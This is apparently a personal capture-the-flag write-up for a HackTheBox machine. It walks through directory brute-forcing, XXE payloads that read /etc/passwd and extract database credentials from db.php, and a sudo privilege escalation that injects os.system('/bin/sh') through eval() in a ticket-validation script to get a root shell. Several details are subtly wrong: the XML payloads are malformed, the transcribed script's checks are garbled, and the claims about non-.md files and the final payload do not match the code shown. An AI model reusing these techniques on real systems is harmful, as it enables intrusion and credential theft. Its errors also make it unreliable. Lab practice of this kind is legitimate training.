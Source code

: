 <h3>HTB - Bughunter (easy)</h3>  
**bug**: xxe  

**nmap**  
``sudo nmap -sVC -p- -v -Pn -T5 rhost -oN nmap

**dir enum**  
``ffuf -u https://rhost/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.html,.txt,.js

![[Pasted image 20250505192056.png]]

go to https://rhost/portal.php    
check sources  
click https://rhost/log_submit.php  
open burp, capture request on submit  
you can see POST request to /tracker_diRPrOOf314.php  
check data to inspector  
the data is base64 and url encoded   

![[Pasted image 20250505191745.png]]

----
**exploitation thru XXE**   
capture POST request   
https://rhost/tracker_diRPrOOf314.php  
you can see XML format being rendered in frontend  
the `title` (entity) including its values are reflected  

**(encoding)**   
use Hackverter ext on burp suite  
select Encode tab  
select urlencode and base64  
  
  
**sensitive file read XXE**  
change the requested XML with this edited request  

```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "file:///etc/passwd">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505191530.png]]


**getting admin creds thru XXE php filtering wrapper**  
we can get the admin creds thru the ``db.php`` that we found on thru the directory bruteforce
data:  
```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505192735.png]]

copy the td and go to terminal  
echo "the td data type shit" | base64 -d  
connect to the machine with SSH  

----
**finding privesc path**  

the user ``development`` has user privilege  
run ``sudo -l`` to check it  
now you can see a script that requrires ``NOPASSWD`` to run  

![[Pasted image 20250506105932.png]]

TicketValidator.py python script:  
```
#!/usr/bin/env python3

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for irregularities.
    code_line = None
    for i, x in enumerate(ticketFile.readlines()):
        if not x.startswith("# Skytrain Inc"):
            return False
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {''.join(x.strip().split(' ')[2:])}")
            continue
        if x.startswith("# Ticket Code: "):
            code_line = i+1
            continue
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("*")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
            return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

**flaws in the script**  
the script asks for a `.md` for tickets, but it still continues even if it's not `.md`  
so we can craft even a `.txt` file to act like a ticket and feed it to the script  
  
here's what i came up with  
```
# Skytrain Inc
## Ticket to Anywhere
# Ticket Code:
**__import__('os').system('/bin/sh')**
```

what it does is,   
it gives the script the minimum requirements it asks for tickets to be valid   
Line 1: `# Skytrain Inc` satisfies the first-line check.  
Line 2:` ## Ticket` to Anywhere meets the second-line requirement (the destination can be anything).  
Line 3: `# Ticket Code`: indicates the next line is the ticket code.  
Line 4: ``**__import__('os').system('/bin/sh')**`` is the payload.  

after that, it executes the `bin/sh` to spawn a root shell to the target machine
VOILA! BountyHunter PWNED!  